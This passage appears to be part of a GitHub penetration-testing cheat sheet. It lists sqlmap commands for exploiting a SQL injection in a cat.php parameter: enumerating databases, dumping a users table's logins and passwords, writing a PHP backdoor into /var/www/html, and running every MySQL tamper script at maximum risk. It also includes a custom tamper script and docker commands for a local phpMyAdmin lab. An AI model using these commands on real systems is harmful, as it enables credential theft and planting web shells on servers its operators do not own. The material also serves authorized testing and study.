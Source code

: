 #### 5.1. SQLMap

Basics:
```
$ sqlmap -u $target/cat.php?id=3 -p id
$ sqlmap -u $target/cat.php?id=3 --dbs
$ sqlmap -u $target/cat.php?id=3 -D photoblog --tables
$ sqlmap -u $target/cat.php?id=3 -D photoblog -T users --columns
$ sqlmap -u $target/cat.php?id=3 -D photoblog -T users -C id,login,password --dump
$ sqlmap -u $target/cat.php?id=3 --privileges
$ sqlmap -u $target/cat.php?id=3 --fingerprint
$ sqlmap -u $target/cat.php?id=3 --sql-query="select * from information_schema.global_variables"
$ sqlmap -u $target/cat.php?id=3 --sql-query="select * from information_schema.schema_privileges"
$ sqlmap -u $target --headers='X-Forwarded-For: *'
```

Write backdoor file:
```
$ sqlmap -r request -p image_name --dbms=mysql \
--file-write='1.php' --file-dest='/var/www/html/images/13.php' --batch
```

SQLMap on MySQL with all tamper scripts:
```
$ path='/usr/share/sqlmap/tamper'
$ tamper=`grep -irl 'mysql' $path | grep -v '.pyc' | sed 's/.py//g' \
| xargs basename -a | sed 's/.\///g' | tr '\n' ',' | sed 's/.$//'`;
$ sqlmap --tamper=$tamper -r /tmp/request --dbms=mysql --risk=3 --level=5
```

Build your own tamper scripts:
```python
import base64
import urllib

def tamper(payload, **kwargs):
    payload='{"ID":"{' + payload + '"}'
    encoded = base64.b64encode(payload.encode("UTF-8")).decode('ascii')
    return encoded

# sqlmap ... -p id --tamper /tmp/my_tamper.py
```

Detection techniques (default: `--technique=BEUSTQ`; change order / remove technique as desired):

```
B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries
```

#### 5.2. PHPMyadmin local instance

```
$ docker pull mysql
$ docker pull phpmyadmin/phpmyadmin
$ docker run --name mysql -e MYSQL_ROOT_PASSWORD=password -d mysql
$ docker run --name phpmyadmin -d --link mysql:db -p 8081:80 phpmyadmin/phpmyadmin
$ http localhost:8081
```
